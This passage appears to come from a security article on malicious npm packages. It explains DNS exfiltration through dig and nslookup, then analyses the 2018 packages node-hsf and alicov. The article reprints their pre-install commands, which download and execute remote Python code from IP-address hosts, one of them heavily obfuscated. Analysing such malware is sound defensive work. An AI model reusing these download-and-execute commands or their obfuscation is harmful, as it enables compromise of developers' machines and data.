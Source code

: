 When you run the `dig` command with a domain name, it sends a DNS query to a DNS server and retrieves the corresponding DNS records for that domain. This can be useful for troubleshooting DNS issues, verifying DNS configurations, or performing DNS reconnaissance.

However, `dig` can also be used by malware for malicious purposes. Malware can use `dig` to exfiltrate data from a compromised system. By using DNS queries as a covert channel, malware can bypass traditional security controls and avoid detection by security tools that rely on IP addresses. The same goes for the `nslookup` usage in the example above.

In addition, malware can use `dig` to perform DNS tunneling, which is a technique that allows attackers to bypass firewalls and other security controls by using DNS queries and responses to transmit data between the attacker's system and a C&C server.

### Packages Can Remotely Run Scripts For Full Access To Your Machine And Data

%[https://www.npmjs.com/package/node-hsf] 

`node-hsf` was live for a full month in 2018 and tried to masquerade as an open-source library from Alibaba by providing a fake repo URL, under the [https://github.com/alibaba/](https://github.com/alibaba/) organization. The authors published seven versions in total, each exploring different ways of exploiting pre-install scripts, including downloading and running Python code.

Version 1.3.3 implemented a naive approach by using `wget` to download a Python script and save it to the user's home directory, as a hidden file, inconspicuously named `.vim.hint`:

```bash
wget 'http://121.196.214.81:8082/p.py' -O ~/.vim.hint;python ~/.vim.hint
```

By version 1.3.4 though, the pre-install script got a bit smarter:

```bash
nohup python -c 'import urllib;exec urllib.urlopen("http://121.196.214.81:8083/p.py").read()' &
```

Here is a breakdown of what the command above does:

* `nohup` runs the command in the background and allows the script to continue running even if the terminal is closed.
    
* `python` is the interpreter used to execute the Python code.
    
* `-c` indicates that the following argument should be treated as a command to be executed.
    
* `'import urllib;exec urllib.urlopen("http://121.196.214.81:8083/p.py\").read()'` is a single line of Python code that imports the `urllib` library and uses it to **download and execute a Python script** located at the URL `http://121.196.214.81:8083/p.py`.
    
* `&` is a shell operator that runs the preceding command in the background, allowing the terminal to be used for other commands.
    

%[https://www.npmjs.com/package/alicov] 

`alicov` was live for about a month in 2018 and published 15 versions in total. It used a convoluted install script to mask its malicious intents:

```bash
python -c "(lambda __g, __contextlib: (lambda __mod: [(lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and ([True for __out[0] in [(lambda after: after())]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((eval(compile(u('http://10.209.61.37:8044/aa').read(), '<string>', 'exec'), None, __g), (lambda __after: __after()))[1])]][0]})())))([None]) for __g['u'] in [(__mod.urlopen)]][0])(__import__('urllib', __g, __g, ('urlopen',), 0)))(globals(), __import__('contextlib'));print 'this is a fake package\\nif you want to get the right one, DO NOT USE NPM'"
```
